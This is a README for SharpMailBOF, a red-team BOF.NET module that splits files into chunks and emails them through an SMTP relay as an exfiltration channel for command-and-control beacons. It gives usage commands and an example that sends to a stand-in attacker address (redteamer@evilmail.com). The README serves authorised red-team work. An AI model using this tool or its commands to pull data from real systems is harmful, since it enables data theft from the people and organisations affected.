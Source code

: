 # SharpMailBOF

SharpMailBOF is a quick and dirty [BOF.NET](https://github.com/CCob/BOF.NET) (Thanks CCob!)  module that can be used to break a file into smaller chunks and email them as attachments to a specified recipient using an SMTP relay of your choosing. This can be used as an alternate data exfiltration method to speed up reciving large files when you are operating with a low/slow sleep setting.

## Syntax
```
bofnet_init
bofnet_load [Path_to_DLL]
bofnet_execute BOFNET.Bofs.SharMailBof [SMTP_SERVER] [PORT] [RECIPIENT] [SENDER] [SUBJECT] [BODY]
```
## Example
```
bofnet_execute BOFNET.Bofs.SHarpMailBof mail.example.com 25 redteamer@evilmail.com noreply@example.com "Test" "This is only a test."
```

## Notes

**DO NOT PANIC** if your beacon does not call back. It will not call back until it has finished sending a series of emails + the time your normal sleep time takes. So if your sleep time is set to 30 minutes and you send a 30MB file, it could still take some time but, it will be much faster than trying to use the inbuilt download feature.

This BOF.NET module will delay checking of your beacon. The default delay between messages is 10 minutes and the default file size is 5MB. You can adjust this to fit your needs. At some point I may add the option to specify the delay and attachment sizes.
